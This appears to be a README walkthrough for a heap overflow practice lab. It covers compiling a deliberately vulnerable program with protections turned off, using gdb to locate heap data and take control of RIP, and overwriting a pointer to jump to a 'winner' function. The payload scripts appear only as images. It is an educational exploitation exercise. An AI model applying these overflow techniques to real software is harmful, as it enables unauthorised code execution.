 ## Heap Overflow Practice
___
### Description
Heap overflow is a common vulnerability that can be exploited to gain code execution. This lab will walk you through the process of exploiting a heap overflow vulnerability.
___
AAAA            -> 0x4052a0
### Setup
Ubuntu 22.04.3 LTS
gcc version 11.3.0 (Ubuntu 11.3.0-1ubuntu1~22.04)
gbd version 12.0.90

___
### Exploitation

#### Step 1: Compile the vulnerable program
Compile the vulnerable program with the following command:
```
gcc heap0.c -w -g -no-pie -z execstack -o heap0
./heap0 HELLO
./heap0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
![Gcc compile](img/compile.png)
___
#### Step 2: Examine the source code
We observe the memory allocation for the heap overflow vulnerability.
```
gdb ./heap0
list 25,40
b 38
run AAAA
info proc map
```
My heap allocation is in address 0x405000

![Observe Heap](img/heap_observe.png)
___
#### Step 3: Find the "AAAA" string in memory
```
x/240x 0x405000
```
We can see the register with string "AAAA" (0x41414141) 0x4052a0

![Find String](img/string_mem.png)
___
#### Step 4: Find the return address of nowinner()
```
disassemble nowinner
```
We can see NoWinner Address in 0x004011b4 (0x4052f0)

![Disassemble NoWinner](img/disass_nowinner.png)
___
### Step 5: Observing Crash
h1 Script:
![H1](img/h1.png)
```
./heap0 $(./h1)
```
![crash](img/crash.png)
___
### Step 6: Controlling RIP
h2 Script:
![H2](img/h2.png)
```
gdb -q ./heap0
run $(./h2)
info registers
```
We can see the RIP register is 0x40124c

![rip](img/rip.png)
___
### Step 7: Targeting the RIP
h3 Script:
![H3](img/h3.png)
```
gdb -q ./heap0
run $(./h3)
info registers
```
![rip2](img/target_rip.png)

We can see that we have correctly targeted the RIP register. 
**CDEF => 0x46454443**
___
### Step 8: Finding the address to Inject
We need to find the address of the shellcode we want to inject into the program. We can use the following command to find the address of the shellcode:
```
disassemble winner
```
![disass_winner](img/disass_winner.png)
___
### Step 9: Creating the injecting Shellcode
h4 Script:
![H4](img/h4.png)
**Be carefull with the endian**
The address winner address is 0x0040119a
So, we add String inverted "\x9a\x11\x40\x00"
___
### Step 10: Injecting the Shellcode
We execute the following command to inject the shellcode into the program:
```
./heap0 $(./h4)
```
![inject](img/inject.png)
**LEVEL PASSED!!**
**HEAP OVERFLOW VULNERABILITY EXPLOITED!!**
___

